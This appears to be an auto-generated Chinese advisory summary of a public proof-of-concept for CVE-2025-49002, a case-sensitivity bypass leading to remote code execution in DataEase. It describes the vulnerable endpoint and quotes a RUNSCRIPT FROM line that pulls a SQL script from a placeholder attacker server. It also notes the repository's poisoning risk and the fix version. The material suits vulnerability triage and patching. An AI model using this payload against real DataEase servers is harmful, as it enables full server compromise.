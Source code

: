 ## CVE-2025-49002-DataEase-RCE

**漏洞编号:** CVE-2025-49002

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** DataEase

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** < 2.10.10

**利用条件:** 需要DataEase服务可访问，并且目标系统未打CVE-2025-49002补丁

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-49002是DataEase的一个H2数据库RCE绕过漏洞。该漏洞是CVE-2025-32966补丁的绕过，因为补丁对`INIT`和`RUNSCRIPT`关键字的过滤是大小写敏感的。攻击者可以通过修改大小写来绕过补丁。 

**漏洞利用方式：**

攻击者通过构造恶意的HTTP POST请求到`/de2api/datasource/validate`端点，其中包含恶意的H2数据库连接配置。该配置中的`INIT`参数被设置为从远程服务器加载并执行SQL脚本，从而导致远程代码执行。

具体来说，攻击者修改`configuration`字段，使用`RUNSCRIPT FROM 'http://your-vps:2333/poc.sql'`。 DataEase会尝试连接到该URL并执行其中的SQL语句。通过精心构造`poc.sql`，攻击者可以执行任意系统命令。

**有效性：**

提供的POC代码有效。`poc.py`脚本通过发送精心构造的POST请求来触发漏洞。它首先尝试访问目标URL, 然后发送包含恶意H2配置的JSON数据到`/de2api/datasource/validate`端点。如果DataEase实例存在漏洞，则会执行远程SQL脚本，导致RCE。

**投毒风险：**

该仓库可能存在一定的投毒风险。风险点在于`poc.sql`的内容。虽然代码本身没有直接的恶意行为，但它指示用户从`http://your-vps:2333/poc.sql`下载脚本并执行。如果攻击者控制了该服务器，他们可以提供恶意的`poc.sql`脚本，导致漏洞利用者受到攻击。

该风险较高，建议漏洞研究员应自行搭建服务器，并检查poc.sql中的内容，确认其安全性后，再进行测试验证。

代码中 `X-DE-TOKEN`  为硬编码，可能无法直接使用，需要自行获取或修改。

**总结：**

该漏洞危害程度高，利用方式简单，但存在一定的投毒风险，需要谨慎使用。建议及时更新DataEase版本到2.10.10或更高版本，以修复此漏洞。

**项目地址:** [Feng-Huang-0520/DataEase_Postgresql_JDBC_Bypass-CVE-2025-49002](https://github.com/Feng-Huang-0520/DataEase_Postgresql_JDBC_Bypass-CVE-2025-49002)

**漏洞详情:** [CVE-2025-49002](https://nvd.nist.gov/vuln/detail/CVE-2025-49002)
